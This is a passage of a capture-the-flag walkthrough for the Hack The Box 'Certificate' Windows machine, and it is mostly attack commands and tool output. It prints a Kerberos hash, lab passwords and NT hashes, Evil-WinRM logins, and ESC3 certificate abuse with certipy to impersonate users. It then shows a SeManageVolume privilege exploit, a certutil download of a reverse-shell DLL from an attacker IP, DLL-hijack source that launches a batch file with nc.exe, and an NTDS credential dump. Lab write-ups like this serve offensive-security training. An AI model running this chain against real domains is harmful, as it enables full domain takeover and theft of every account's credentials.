$krb5tgs$23$*Lion.SK$CERTIFICATE.HTB$certificate.htb/Lion.SK*$3701924ced37746d0fda814ce70aeaec$0fdd4218a996986d4aeb7e47eca0b45d70a2c5e7f8d8a902675f6c5cfab790daf6bbea9b7b5cc00c96834eb9ed51231df285eef82ff8759bc2c5497a2f7debfcd4da45aef34755d4ed931081698eaaca9ee5356924938914f0676e77ff90513fd419cc44cdb336ae59d1a615c254cf28eb85847e17b2a763827837d3fe3a110f9194ef07f8aa7ce42e0701a5db8132fc266a633da677ba4abb94f387b128511423714a63740c7da8c7bdd69d68008f3622f8c0ace866f471c0722d27386d77307d319f742778254e6bcf3b613e3e5994e1ff0e9c12a3c71d786376a587874890a2ca03e93be435c2ba032e0c048fc49cb587a1f71dbb6fd6f2bfae189b9c17861816807eaaa67d50243e8fdd1e941488aae6fe4583b881352ed6125b3852eb8a83fac3e0d65235cfee844eb03d7feda1ffc91aa69a77a4a0e279a01af931edd2b6ff50c7f5efb2838b29c51085f9a411f7582ef7c78ce020c9eb4edf8b24055ed325cc51d0499d5853c305cb3c5642dfb42a16dfe2850e1b78ea0a076fe7e9830a5b3909139a36a5f560cbb0dd6174553519854e2a6d697668c2aac5403877ff86117357bac35155dc58ad78bd4906edb51910138072f35c3a60c3007bdd0a53dc38d63614fd0ee8d261b674e268557d45b110bd5e46be920de41c7fb703ab9f7de2ea2197fe746a4764fa1e7b03dac2bf94e1c5a0abd81ea54053cf5cf2d6fdfbc1a5dacfab4d5a11c4e0d5e89aa651197c9810a0a1bfa7aa4659e495bfe8c3aa0e8d4c5ee25c06dc1d40121f9e813925d94a07c75c5468797293b8d86b136af7774585ce79a5f989997b0caa8355ba389d0b619c876e250138c21733de7a9418027b5f1e16e9e8e937101da1a3ddfedeb2046c40216e503ad4879a50c4949d9cb00ecbe9bab33b0caced95bb58bb95502a77090818e8236c41a226eaaabd51735d572a3f0ffdedeb66894c91dbca67e181d47b761ba01185c64102a867e11fac9df5840e92213d784983fe9335b14fa984e23a81c344c47a7e5360d76ecdebebdb29bb53ba62721704735ab7768bb1163114245270c0593c559e90e132ba4186066562723b6e5da7ff3d52526819c03e4e28814a84fd6275042781007d279c6ff312cdd4956f13819fa8370d0d04b6359cb00a25b55d90897083850a5038eca6b7e7545f856696a3081bbed91543d43978f34a1ecc8eb588fa5a32a04f9f10c868b01c87cc1c5050f61b759a90c4c1d418737b4467ce6c9329fda1cb058c98a41b6590a9fbb6dd0bbc68fba3713aaa4d7b5cbeaa38b3fecfec2fc06290d4ff8d53aac642ddcd9042bb59bf41e706737a1091d3352ecc1fb229f2086a5f3f062e44ec744c7724818bdc971912d5e7e3f5f589dbee46cd76b5289319a56e4342161c5e0796417cb1131df38a1c385438b191ccffc3d3845bc1c94be69b82ac4f3f190279120c2311cc143c294bc36682e24b8887dcf10af945f15e97d66812d5cc302c61b20833eb3880ecba5e5a3cb305719390bae5

```

And like this can we easily get the first flag baby:

```
└─# evil-winrm -i dc01.certificate.htb -u lion.sk -p '!QAZ2wsx'             
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> ls
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> cd ..
*Evil-WinRM* PS C:\Users\Lion.SK> tree /f
Folder PATH listing
Volume serial number is 7E12-22F9
C:.
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Lion.SK> cd Desktop
*Evil-WinRM* PS C:\Users\Lion.SK\Desktop> ls


    Directory: C:\Users\Lion.SK\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/6/2025  10:50 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Lion.SK\Desktop> cat user.txt
7b2f6fd26e75ebb885e1a32841b521c0
*Evil-WinRM* PS C:\Users\Lion.SK\Desktop> 

```

&nbsp;

# Road to root.txt

Now checking this new user can we see he has the ability to enroll a specific certificate?



Now a quick check showed no traces of the other users being able to do something interesting on this machine. So i guess I need to move forward from here on!  
But from what i see my user can enroll a ESC3 type?

```
└─# certipy-ad find  -u lion.sk@certificate.htb -p '!QAZ2wsx' -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: CERTIFICATE.HTB.
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: DC01.certificate.htb.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFICATE.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        ManageCertificates              : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Enroll                          : CERTIFICATE.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-05T19:52:09+00:00
    Template Last Modified              : 2024-11-05T19:52:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.

```

We can first request the first certificate, this will be used in tandem with the security configuration enrollment agent:

```
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template Delegated-CRA
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'

```

Now can we use this obtained pdf to request a certificate on behalf on another user(Administrator in the example) by using a certificate that supports the Enrollment Agent EKU usually the **User** template is the commonly used.

```
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -pfx lion.sk.pfx -on-behalf-of "certificate\administrator" -template "User" -dc-ip 10.10.11.71 -ca "Certificate-LTD-CA"
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 29
[-] Got error while requesting certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
Would you like to save the private key? (y/N): n
[-] Failed to request certificate

```

Now here I parsed the error and ChatGPT suggested that the User certificate might be disabled and that fucker was acutally right:  


*Now there are 2 issues here:*

- The template is disabled
- The template has no **Enrollee Supplies Subject**  which allows to define a UPN and request a certificate on nehalf of other users.

*Here I see 2 possible ways:*

- Try to check if I can find an enabled template that is enrollable by low privilege users and has the **Enrollee Supplies Subject** set to **True**
- Or, abuse the Generic Write of Sara.b and add herself to the Cert Publishers so I can craft a new certificate.

&nbsp;

Now a quick look showed that all the certificates that match the first option are only enrollable from Domain and Enterprise admins as it is supposed to be, so I will try to add Sara.b to the Cert Publishers group and see if we can clone a new abusable cert.

```
(LDAPS)-[DC01.certificate.htb]-[CERTIFICATE\Sara.B]
PV > Add-DomainGroupMember -Members 'Sara.b' -Identity 'Cert Publishers'
[2025-06-07 10:39:49] User Sara.b successfully added to Cert Publishers
(LDAPS)-[DC01.certificate.htb]-[CERTIFICATE\Sara.B]
PV > Get-DomainGroupMember -Identity 'Cert Publishers'                  
GroupDomainName             : Cert Publishers
GroupDistinguishedName      : CN=Cert Publishers,CN=Users,DC=certificate,DC=htb
MemberDomain                : certificate.htb
MemberName                  : DC01$
MemberDistinguishedName     : CN=DC01,OU=Domain Controllers,DC=certificate,DC=htb
MemberSID                   : S-1-5-21-515537669-4223687196-3249690583-1000

GroupDomainName             : Cert Publishers
GroupDistinguishedName      : CN=Cert Publishers,CN=Users,DC=certificate,DC=htb
MemberDomain                : certificate.htb
MemberName                  : Sara.B
MemberDistinguishedName     : CN=Sara,CN=Users,DC=certificate,DC=htb
MemberSID                   : S-1-5-21-515537669-4223687196-3249690583-1109

```

And now I will re-run the Certipy but with Sara's credentials to see if I can do something more.

But I was actually missing important informations, while re-running again the scanner I found a possible candidate that can be used to pull-out the ESC3 chain.

```
  1
    Template Name                       : SignedUser
    Display Name                        : Signed User
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    RA Application Policies             : Certificate Request Agent
    Authorized Signatures Required      : 1
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-03T23:51:13+00:00
    Template Last Modified              : 2024-11-03T23:51:14+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Domain Users
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Domain Users
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain Users
    [*] Remarks
      ESC3 Target Template              : Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy.
```

As you see this is Enabled and enrollable by any low-privileged user, it can be used to perform client authentication and is has the **RA Application: Certificate Request agent.** Now for some reasons it is failing...

```
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of 'administrator@certificate.htb' -pfx lion.sk.pfx
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 34
[-] Got unknown error while requesting certificate: (unknown error code: 0x80070547): Denied by Policy Module
Would you like to save the private key? (y/N): N 
[-] Failed to request certificate
                                                                                                                       
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Certificate]
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of 'ryan.k@certificate.htb' -pfx lion.sk.pfx
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 35
[-] Got error while requesting certificate: code: 0x80093102 - CRYPT_E_ASN1_EOD - ASN1 unexpected end of data.
Would you like to save the private key? (y/N): N 
[-] Failed to request certificate

```

&nbsp;I want to test the other one(Machine template) as that might maybe work? I need first to domain join a PC in domain:

```
└─# powerview certificate.htb/sara.b:Blink182@dc01.certificate.htb 
Logging directory is set to /root/.powerview/logs/certificate-sara.b-dc01.certificate.htb
[2025-06-07 11:27:02] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
[2025-06-07 11:27:02] User sara.b has adminCount attribute set to 1. Might be admin somewhere somehow :)
(LDAPS)-[DC01.certificate.htb]-[CERTIFICATE\Sara.B]
PV > Add-DomainComputer -ComputerName 'YOVECIO' -ComputerPass 'Coglione1!'
[2025-06-07 11:27:08] Successfully added machine account YOVECIO$ with password Coglione1!.
(LDAPS)-[DC01.certificate.htb]-[CERTIFICATE\Sara.B]
PV > 

```

Now we need to request a Machine type certificate as the dummy PC:

```
└─# certipy-ad req -u 'YOVECIO$@certificate.htb' -p 'Coglione1!' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template Machine 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 36
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'YOVECIO.certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-6101'
[*] Saving certificate and private key to 'yovecio.pfx'
[*] Wrote certificate and private key to 'yovecio.pfx'

```

# Second attempt

So here I asked for another nudge and apparenty if is supposed to not allowing me to ESC3 directly to administrator...

```
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of 'administrator@certificate.htb' -pfx lion.sk.pfx
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 34
[-] Got unknown error while requesting certificate: (unknown error code: 0x80070547): Denied by Policy Module
Would you like to save the private key? (y/N): N 
[-] Failed to request certificate
```

The error tells me there is a domain GPO or some kind of crappy CA settings I can't see right now. But now I will use the "SignedUser" template to request the certificates as the remaining users:

```
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of 'certificate\ryan.k' -pfx lion.sk.pfx
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 43
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'

```

But as you see Akeder can't be obtained?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Certificate]
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of 'certificate\akeder.kh' -upn 'akeder.kh@certificate.htb' -pfx lion.sk.pfx       
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 47
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
Would you like to save the private key? (y/N): N
[-] Failed to request certificate
                                                                                                                       
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Certificate]
└─# certipy-ad req -u lion.sk@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -template 'SignedUser' -on-behalf-of 'akeder.kh@certificate.htb' -pfx lion.sk.pfx                               
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 48
[-] Got unknown error while requesting certificate: (unknown error code: 0x80070547): Denied by Policy Module
Would you like to save the private key? (y/N): N
[-] Failed to request certificate

```

And  now we can obtian both the TGT and the password hash for Ryan.K:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Certificate]
└─# certipy-ad auth -pfx ryan.k.pfx -username Ryan.k -dc-ip 10.10.11.71 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6

```

And we are in!

```
└─# evil-winrm -i dc01.certificate.htb -u ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 

```

Now checking his permissions I can see a Volume privilege? This might indicate that he can run VSS copies, and it is crucial in order to be able to dump used processes like mounted Databases.

```
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\ryan.k S-1-5-21-515537669-4223687196-3249690583-1117


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain Storage Managers        Group            S-1-5-21-515537669-4223687196-3249690583-1118 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

```

Now we might be able to use the shadow volume to mount the C in E and read the ntds dit from there.  Or use this one? And it is already compiled NICE NICE!

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

I will upload it and execute it!

```
Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/7/2025  11:46 AM          12288 SeManageVolumeExploit.exe
-a----         6/7/2025  11:37 AM            183 shadow1.txt
-a----         6/7/2025  11:39 AM             79 shadow_fixed.txt
-a----         6/7/2025  11:41 AM             92 simple.txt


*Evil-WinRM* PS C:\temp> .\SeManageVolumeExploit.exe
Entries changed: 842

DONE


```

Now it supposedly changes the permissions on the C:\\WIndows\\\* gaining me full write privileges to go bananas?

```
*Evil-WinRM* PS C:\temp> .\SeManageVolumeExploit.exe
Entries changed: 842

DONE

*Evil-WinRM* PS C:\temp> icacls C:\Windows\
C:\Windows\ NT SERVICE\TrustedInstaller:(F)
            NT SERVICE\TrustedInstaller:(CI)(IO)(F)
            NT AUTHORITY\SYSTEM:(M)
            NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
            BUILTIN\Users:(M)
            BUILTIN\Users:(OI)(CI)(IO)(F)
            BUILTIN\Pre-Windows 2000 Compatible Access:(RX)
            BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(IO)(GR,GE)
            CREATOR OWNER:(OI)(CI)(IO)(F)
            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
            APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
            APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
            APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)


```

As you see now the builtin users has F aka FullAccess! Let's see If I can upload the dll revshell  here:

```
*Evil-WinRM* PS C:\temp> certutil -urlcache -split -f http://10.10.14.12/shell.dll C:\Windows\System32\wbem\shell.dll
****  Online  ****
  0000  ...
  2400


CertUtil: -URLCache command completed successfully.

```

Now I can see that I have write permission...

```
*Evil-WinRM* PS C:\temp> cp simple.txt C:\Windows\System32\wbem\
*Evil-WinRM* PS C:\temp> ls C:\Windows\System32\wbem\simple.txt


    Directory: C:\Windows\System32\wbem


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/7/2025  11:41 AM             92 simple.txt


*Evil-WinRM* PS C:\temp> 


```

I just need to find a way to generate a dll that bypasses the defender?

# Attempt 3

After many tests I managed to do it by, using this as template:

https://github.com/xct/diaghub/tree/master

Edit the mail dll to match this one:

```
─# cat payload/dllmain.cpp 
#include "pch.h"
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
    WinExec("C:\\Windows\\System32\\spool\\drivers\\color\\exploit.bat", 0);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        pwn();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

Compile the and upload the dll on the victim:

```
86_64-w64-mingw32-g++ -shared -o exploit.dll dllmain.cpp -municode -fpermissive 
```

Launch the tampering of the privileges:

```
./SeManageVolumeAbuse.exe
Success! Permissions changed.

```

Copy the dll to C:\\Windows\\system32

```
*Evil-WinRM* PS C:\temp> ls C:\Windows\System32\exploit.dll


    Directory: C:\Windows\System32


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/7/2025   2:32 PM          85538 exploit.dll


```

Upload the bat where you make the call in the dll:

```
*Evil-WinRM* PS C:\temp> cp exploit.bat C:\Windows\System32\spool\drivers\color\
*Evil-WinRM* PS C:\temp> ls C:\Windows\System32\spool\drivers\color\


    Directory: C:\Windows\System32\spool\drivers\color


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/7/2025   2:34 PM             75 exploit.bat
-a----         6/7/2025   2:03 PM          45272 nc.exe

```

Now lauch the exe to invoke the execution:

```
*Evil-WinRM* PS C:\temp> ./diaghub.exe c:\\ProgramData\\ exploit.dll
[+] CoCreateInstance
[+] CoQueryProxyBlanket
[+] CoSetProxyBlanket
[+] CreateSession
[+] CoCreateGuid
[+] Success
*Evil-WinRM* PS C:\temp> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            akeder.kh                Alex.D
Aya.W                    Eva.F                    Guest
John.C                   Kai.X                    kara.m
karol.s                  krbtgt                   Lion.SK
Maya.K                   Nya.S                    Ryan.K
saad.m                   Sara.B                   xamppuser
yovecio
The command completed with one or more errors.

*Evil-WinRM* PS C:\temp> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
yovecio
The command completed successfully.

```

And now can we easily dump all the creds from ntdsdit:

```
─# netexec smb dc01.certificate.htb -u 'yovecio' -p 'Coglione1' -M ntdsutil
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [+] certificate.htb\yovecio:Coglione1 (Pwn3d!)
